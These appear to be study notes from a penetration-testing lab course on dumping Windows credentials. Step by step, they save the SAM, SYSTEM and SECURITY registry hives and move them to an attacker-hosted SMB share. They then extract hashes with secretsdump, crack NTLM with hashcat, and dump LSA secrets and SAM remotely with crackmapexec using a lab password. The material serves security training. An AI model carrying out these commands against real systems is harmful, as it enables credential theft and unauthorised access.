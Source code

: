 
dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline.


#### Copying SAM Registry Hives

Three registry hives from where we can gather hashes to crack if we have local admin access on the window host

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

#### Using reg.exe save to Copy Registry Hives

After running CMD.exe as admin

```cmd-session
reg.exe save hklm\sam C:\sam.save
```

```cmd-session
reg.exe save hklm\system C:\system.save
```

```cmd-session
reg.exe save hklm\security C:\security.save
```

Technically we will only need `hklm\sam` & `hklm\system`, but `hklm\security` can also be helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts

#### Creating a Share with smbserver.py

On attacking machine:
```shell-session

sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

On windows host:
```cmd-session
move sam.save \\10.10.15.16\CompData
```

```cmd-session
move security.save \\10.10.15.16\CompData
```

```cmd-session
move system.save \\10.10.15.16\CompData
```

---
## Dumping Hashes with Impacket's secretsdump.py

```shell-session
locate secretsdump 
```

```shell-session

python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Most modern Windows operating systems store the password as an ***NT hash***. Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS.


---

## Cracking Hashes with Hashcat

#### Running Hashcat against NT Hashes

We can refer to Hashcat's [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes) or the man page to see the supported hash types and their associated number.

```shell-session

sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

-m 1000 to select the tyoe of hashes we are going to crack (NTLM in this case)


Keep in mind that this is a well-known technique, so admins may have safeguards to prevent and detect it. We can see some of these ways [documented](https://attack.mitre.org/techniques/T1003/002/) within the MITRE attack framework.


---

## Remote Dumping & LSA Secrets Considerations

With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network. This could allow us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

#### Dumping LSA Secrets Remotely

```shell-session

crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

#### Dumping SAM Remotely

```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```


